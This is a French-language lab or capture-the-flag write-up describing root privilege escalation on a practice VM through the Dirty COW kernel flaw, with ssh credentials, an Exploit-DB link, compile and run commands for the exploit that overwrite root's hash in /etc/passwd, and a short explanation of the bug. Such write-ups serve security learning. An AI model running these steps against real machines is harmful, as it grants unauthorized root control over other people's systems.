 # Dirty COW

On se connecte en ssh à la machine avec les credentials:
```
$ ssh laurie@<IP>
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

# Version KERNEL
On vérifie la version du Kernel
```
$ uname -a
```

On se rend compte que la version de Kernel (3.2.0-91) est vulnérable a la faille Dirty COW.

Après quelques recherches sur le net, on tombe sur ce site qui met à disposition un exploit pour Dirty COW.
```
https://www.exploit-db.com/exploits/40839
```

# Exploit
On copie le fichier ```exploit_dirty.c``` dans la VM.
```
$ scp exploit_dirty.c laurie@<IP>:/home/laurie 
```

On compile
```
$ gcc -pthread exploit_dirty.c -o dirty -lcrypt
```

On exécute
```
$ ./dirty <NEW-PASSWORD>
```

L'éxécutable va remplacer dans la mémoire (fichier ```/etc/passwd```), le hash du user root par le hash du mot de passe que nous venons de saisir.

On exécute ```su``` avec le mot de passe choisi.

On verifie l'uid
```
$ id
```

On se rend compte que nous sommes uid=0. BINGO!!!

On se deplace dans le dossier ```/root``` et avec un ```cat README``` on se rendre compte que nous sommes root sur la machine!


# Explication de la faille
La faille Dirty COW touche le noyau Linux à partir de la version 2.6.22 (Septembre 2007) jusqu'à la version 4.4.25 inclus. Elle a été corrigé depuis la version 4.4.26.
Elle exploite les fonctionnalités Copy-On-Write (COW) du noyau, d'où son nom. C'est par ce biais que le pirate peut atteindre et écrire sur des espaces memoire qui, normalement, ne sont qu'en lecture seule. 
De cette facon, il est possible de faire une élévation de privilèges et devenir root.

La faille Dirty COW a été découverte par Phil Oester.

```
Video Youtube
Lien: https://www.youtube.com/watch?v=kEsshExn7aE
```
http://www.linux-france.org/article/sys/lame/html/x829.html
